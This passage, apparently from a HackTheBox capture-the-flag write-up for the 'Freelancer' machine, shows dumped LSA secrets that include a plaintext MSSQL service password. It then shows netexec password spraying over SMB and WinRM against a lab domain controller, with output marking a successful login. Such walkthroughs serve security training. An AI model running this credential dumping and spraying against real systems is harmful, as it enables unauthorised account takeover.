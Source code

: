 ```
NL$KM:634d9d4c85ef33ffa5e14de2dca12075d220eaa9bce0db7dbe77e9be6ead47ec2602e1f6bff5c5ccf9d67a16491c43c5776de0a8c6241536bf27499619b96320
[*] _SC_MSSQL$DATA 
(Unknown User):PWN3D#l0rr@Armessa199
[*] Cleaning up...

```

The administrator hash doesn’t work on Freelancer. But there is a plaintext password for the MSSQL service account, “PWN3D#l0rr@Armessa199”. There’s also a hash in here that will come into play when I show the [intended path](#intended-path) in Beyond Root.

### Password Spray

The “PWN3D#l0rr@Amressa199” password works for lorra199 for both SMB and WinrM:

```

oxdf@hacky$ netexec smb freelancer.htb -u users -p passwords2 --continue-on-success
SMB         10.10.11.5      445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:freelancer.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.5      445    DC               [-] freelancer.htb\administrator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\mikasaAckerman:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sqlbackupoperator:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sql_svc:PWN3D#l0rr@Armessa199 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\administrator:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\lkazanof:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\mikasaAckerman:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\MSSQLSERVER:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sqlbackupoperator:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
SMB         10.10.11.5      445    DC               [-] freelancer.htb\sql_svc:MSSQLS3rv3rP@sswd#09 STATUS_LOGON_FAILURE 
oxdf@hacky$ netexec winrm freelancer.htb -u users -p passwords2 --continue-on-success
WINRM       10.10.11.5      5985   DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:freelancer.htb)
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\administrator:PWN3D#l0rr@Armessa199
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\lkazanof:PWN3D#l0rr@Armessa199
WINRM       10.10.11.5      5985   DC               [+] freelancer.htb\lorra199:PWN3D#l0rr@Armessa199 (Pwn3d!)
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\mikasaAckerman:PWN3D#l0rr@Armessa199
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\MSSQLSERVER:PWN3D#l0rr@Armessa199
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sqlbackupoperator:PWN3D#l0rr@Armessa199
WINRM       10.10.11.5      5985   DC               [-] freelancer.htb\sql_svc:PWN3D#l0rr@Armessa199
```